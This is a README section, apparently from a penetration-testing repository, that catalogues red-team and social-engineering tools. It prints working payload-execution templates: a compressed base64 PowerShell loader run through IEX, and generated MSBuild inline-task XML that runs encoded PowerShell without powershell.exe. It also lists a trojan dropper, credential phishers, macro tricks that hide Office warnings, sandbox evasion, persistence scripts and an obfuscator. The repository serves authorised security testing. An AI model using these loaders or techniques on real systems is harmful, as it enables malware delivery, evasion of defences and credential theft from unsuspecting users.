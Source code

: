 ## Red Teaming and Social-Engineering related scripts, tools and CheatSheets



- **`backdoor-drop.js`** - Internet Explorer - JavaScript trojan/backdoor dropper template, to be used during Penetration Testing assessments. ([gist](https://gist.github.com/mgeeky/b0aed7c1e510560db50f96604b150dac))

- **`clickOnceSharpPickTemplate.cs`** - This is a template for **C# Console Project** containing [SharpPick](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) technique of loading Powershell code from within C# application. The ClickOnce concept is to generate a windows self-updating Application that is specially privileged ([ClickOnce](https://www.slideshare.net/NetSPI/all-you-need-is-one-a-click-once-love-story-secure360-2015))

- **`compressedPowershell.py`** - Creates a Powershell snippet containing GZIP-Compressed payload that will get decompressed and executed (IEX)
. ([gist](https://gist.github.com/mgeeky/e30ceecc2082a11b99c7b24b42bd77fc))

    Example:

```
$s = New-Object IO.MemoryStream(, [Convert]::FromBase64String('H4sIAMkfcloC/3u/e390cGVxSWquXlBqWk5qcklmfp6eY3Fxam5STmWslZVPfmJKeGZJRkBiUUlmYo5fYm6qhhJUR3hmXkp+ebGeW35RbrGSpkKNgn9pia5faU6ONS9XNDZFer6pxcWJ6alO+RVAs4Mz8ss11D1LFMrzi7KLFdU1rQFOfXYfjwAAAA=='));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s, [IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

- **`delete-warning-div-macro.vbs`** - VBA Macro function to be used as a Social Engineering trick removing "Enable Content" warning message as the topmost floating text box with given name. ([gist](https://gist.github.com/mgeeky/9cb6acdec31c8a70cc037c84c77a359c))

- **`generateMSBuildPowershellXML.py`** - Powershell via MSBuild inline-task XML payload generation script - To be used during Red-Team assignments to launch Powershell payloads without using `powershell.exe` ([gist](https://gist.github.com/mgeeky/df9f313cfe468e56c59268b958319bcb))

    Example output **not minimized**:
    
```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1

        :: Powershell via MSBuild inline-task XML payload generation script
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

[?] File not recognized as PE/EXE.

------------------------------------------------------------------------------------
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

  <!--  Based on Casey Smith work, Twitter: @subTee                              -->
  <!--  Automatically generated using `generateMSBuildPowershellXML.py` utility  -->
  <!--  by Mariusz B. / mgeeky <mb@binary-offensive.com>                         -->

  <Target Name="btLDoraXcZV">
    <hwiJYmWvD />
  </Target>
  <UsingTask TaskName="hwiJYmWvD" TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v    4.0.dll" >
    <Task>
    <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class hwiJYmWvD : Task {
                public override bool Execute() {

                    byte[] payload = System.Convert.FromBase64String("JHMgPSBOZXctT2JqZ    WN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygn    SDRzSUFJOUxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbWZwNmVZM0Z4YW0    1U1RtV3NsWlZQZm1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZV    czNVJickdTcGtLTmduOXBpYTVmYVU2T05TOVhORFpGZXI2cHhjV0o2YWxPK1JWQXM0T    Xo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3    LU9iamVjdCBJTy5TdHJlYW1SZWFkZXIoTmV3LU9iamVjdCBJTy5Db21wcmVzc2lvbi5    HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb    2RlXTo6RGVjb21wcmVzcykpKS5SZWFkVG9FbmQoKTs=");
                    string decoded = System.Text.Encoding.UTF8.GetString(payload);

                    Runspace runspace = RunspaceFactory.CreateRunspace();
                    runspace.Open();

                    Pipeline pipeline = runspace.CreatePipeline();
                    pipeline.Commands.AddScript(decoded);
                    pipeline.Invoke();

                    runspace.Close();
                    return true;
                }
            }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
------------------------------------------------------------------------------------
```
    
**minimized**
    
```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1 -m                     
                                                                                                                  
        :: Powershell via MSBuild inline-task XML payload generation     script                                       
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'       
        Mariusz B. / mgeeky, <mb@binary-offensive.com>                                                                
                                                                                                                  
[?] File not recognized as PE/EXE.                                                                                    
                                                                                                                  
------------------------------------------------------------------------------------                                  
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003"><Target     Name="mYOYInAFWE"><DpaYaokgauWBJbe />
</Target><UsingTask TaskName="DpaYaokgauWBJbe" TaskFactory="CodeTaskFactory"     AssemblyFile="C:\Windows\Microsoft.Ne
t\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"><Task><Reference     Include="System.Management.Automation" /><
Code Type="Class" Language="cs"><![CDATA[using System.Management.Automation;using     System.Management.Automation.Run
spaces;using Microsoft.Build.Framework;using Microsoft.Build.Utilities;public class     DpaYaokgauWBJbe:Task{public ov
erride bool Execute(){byte[]    x=System.Convert.FromBase64String("JHMgPSBOZXctT2JqZWN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb25
2ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygnSDRzSUFMQkxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbW    ZwNmVZM0Z4YW01U1RtV3NsWlZQZ
m1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZVczNVJickdTcGtLTmduOXBpYTVmYVU2T05T    OVhORFpGZXI2cHhjV0o2YWxPK1J
WQXM0TXo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3LU9iamVjdCBJTy    5TdHJlYW1SZWFkZXIoTmV3LU9ia
mVjdCBJTy5Db21wcmVzc2lvbi5HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb2Rl    XTo6RGVjb21wcmVzcykpKS5SZWF
kVG9FbmQoKTs=");string d=System.Text.Encoding.UTF8.GetString(x);Runspace     r=RunspaceFactory.CreateRunspace();r.Open
();Pipeline p=r.CreatePipeline();p.Commands.AddScript(d);p.Invoke();r.Close();return     true;}}]]></Code></Task></Usi
ngTask></Project>                                                                                                     
------------------------------------------------------------------------------------                              
```

- **`Invoke-Command-Cred-Example.ps1`** - Example of using PSRemoting with credentials passed directly from command line. ([gist](https://gist.github.com/mgeeky/de4ecf952ddce774d241b85cfbf97faf))

- **`MacroDetectSandbox.vbs`** - Visual Basic script responsible for detecting Sandbox environments, as presented in modern Trojan Droppers implemented in Macros. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`Macro-Less-Cheatsheet.md`** - Macro-Less Code Execution in MS Office via DDE (Dynamic Data Exchange) techniques Cheat-Sheet ([gist](https://gist.github.com/mgeeky/981213b4c73093706fc2446deaa5f0c5))

- **`macro-psh-stdin-author.vbs`** - VBS Social Engineering Macro with Powershell invocation taking arguments from Author property and feeding them to StdIn. ([gist](https://gist.github.com/mgeeky/50c4b7fa22d930a80247fea62755fbd3))

- **`msbuild-powershell-msgbox.xml`** - Example of Powershell execution via MSBuild inline task XML file. On a simple Message-Box script.
 ([gist](https://gist.github.com/mgeeky/617c54a23f0c4e99e6f475e6af070810))

- **`muti-stage-1.md`** - Multi-Stage Penetration-Testing / Red Teaming Malicious Word document creation process. ([gist](https://gist.github.com/mgeeky/6097ea56e0f541aa7d98161e2aa76dfb))

- **`Phish-Creds.ps1`** - Powershell oneline Credentials Phisher - to be used in malicious Word Macros/VBA/HTA or other RCE commands on seized machine. ([gist](https://gist.github.com/mgeeky/a404d7f23c85954650d686bb3f02abaf))

    One can additionally add, right after `Get-Credential` following parameters that could improve pretext's quality during social engineering attempt:
    - `-Credential domain\username` - when we know our victim's domain and/or username - we can supply this info to the dialog
    - `-Message "Some luring sentence"` - to include some luring message

- [**`PhishingPost`**](https://github.com/mgeeky/PhishingPost) - (PHP Script intdended to be used during Phishing campaigns as a credentials collector linked to backdoored HTML <form> action parameter.

- [**`RobustPentestMacro`**](https://github.com/mgeeky/RobustPentestMacro) - This is a rich-featured Visual Basic macro code for use during Penetration Testing assignments, implementing various advanced post-exploitation techniques.

- **`set-handler.rc`** - Quickly set metasploit's multi-handler + web_delivery (separated) handler for use with powershell. ([gist](https://gist.github.com/mgeeky/bf4d732aa6e602ca9b77d089fd3ea7c9))

- **`SubstitutePageMacro.vbs`** - This is a template for the Malicious Macros that would like to substitute primary contents of the document (like luring/fake warnings to "Enable Content") and replace document's contents with what is inside of an AutoText named `RealDoc` (configured via variable `autoTextTemplateName` ). ([gist](https://gist.github.com/mgeeky/3c705560c5041ab20c62f41e917616e6))

- **`warnings\EN-Word.docx`** and **`warnings\EN-Excel.docx`**  - Set of ready-to-use Microsoft Office Word shapes that can be pasted / inserted into malicious documents for enticing user into clicking "Enable Editing" and "Enable Content" buttons.

- **`WMIPersistence.vbs`** - Visual Basic Script implementing WMI Persistence method (as implemented in SEADADDY malware and further documented by Matt Graeber) to make the Macro code schedule malware startup after roughly 3 minutes since system gets up. ([gist](https://gist.github.com/mgeeky/d00ba855d2af73fd8d7446df0f64c25a))

- **`Various-Macro-Based-RCEs.md`** - Various Visual Basic Macros-based Remote Code Execution techniques to get your meterpreter invoked on the infected machine. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`vba-macro-mac-persistence.vbs`** - (WIP) Working on VBA-based MacPersistance functionality for MS Office for Mac Macros. ([gist](https://gist.github.com/mgeeky/dd184e7f50dfab5ac97b4855f23952bc))

- **`vba-windows-persistence.vbs`** - VBA Script implementing two windows persistence methods - via WMI EventFilter object and via simple Registry Run. ([gist](https://gist.github.com/mgeeky/07ffbd9dbb64c80afe05fb45a0f66f81))

- [**`VisualBasicObfuscator`**](https://github.com/mgeeky/VisualBasicObfuscator) - Visual Basic Code universal Obfuscator intended to be used during penetration testing assignments.
